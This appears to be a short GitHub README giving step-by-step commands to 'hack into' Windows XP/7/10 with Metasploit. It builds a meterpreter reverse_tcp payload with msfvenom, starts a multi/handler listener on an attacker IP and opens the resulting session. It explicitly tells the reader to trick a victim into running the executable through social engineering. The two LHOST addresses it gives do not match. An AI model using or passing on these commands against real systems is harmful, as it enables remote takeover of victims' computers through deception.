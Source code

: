 # system_hacking-windows-XP-7-10-
Step-by-step commands for hacking into windows XP/7/10 using **Metasploit Framework**

### Command to create an exploit:
`msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.23.160 -f exe -o /home/yash/Desktop/Exploit.exe`

Then open MSF: `msfconsole`

`msf6 > use exploit/multi/handler`

`msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp`

*Select the same payload of which we have created the exploit*

`msf6 exploit(multi/handler) > set LHOST 192.168.1.12`

*192.168.1.12 -> IP address of the attacker's machine*

`msf6 exploit(multi/handler) > exploit -j -z`

*Now send the exploit to the victim using social engineering skills, then wait for the victim to click on the exploit, once the expoit is run in the victims machine you will get a session on the msf6>*

`msf6 exploit(multi/handler) > sessions -i 1`

*Now you will get the session*

*Congratulations!!*
